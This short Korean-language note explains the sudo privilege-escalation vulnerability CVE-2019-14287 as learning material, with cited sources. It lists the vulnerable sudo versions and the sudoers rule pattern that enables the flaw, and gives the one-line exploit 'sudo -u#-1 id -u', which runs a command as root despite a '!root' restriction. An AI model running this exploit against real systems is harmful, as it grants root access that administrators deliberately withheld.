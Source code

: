 # SUDO 취약점 CVE-2019-14287

루트 권한이 없어도 루트 권한으로 임의 명령을 실행할 수 있는 취약점이다.

## 조건

### 1. sudo 버전 1.8.28 이전

### 2. /etc/sudoers 설정파일이 아래와 같이 설정되어있음

```bash
<사용자명> ALL = (ALL, !root) <명령어>
```

## 실행

```bash
sudo -u#-1 id -u
```

user ID를 -1 또는 4294967295로 설정하면 user ID를 username으로 변환하는 함수가 이 숫자를 루트 사용자의 user ID인 0으로 취급해서 발생하는 문제다.

우분투의 경우 백포트를 통해 취약점이 막힌 것 같다.

# 출처

- https://resources.whitesourcesoftware.com/blog-whitesource/new-vulnerability-in-sudo-cve-2019-14287
- https://blog.alyac.co.kr/2557
- https://medium.com/@cratios48/sudo-취약점-발견되다-c03e2f05f34e

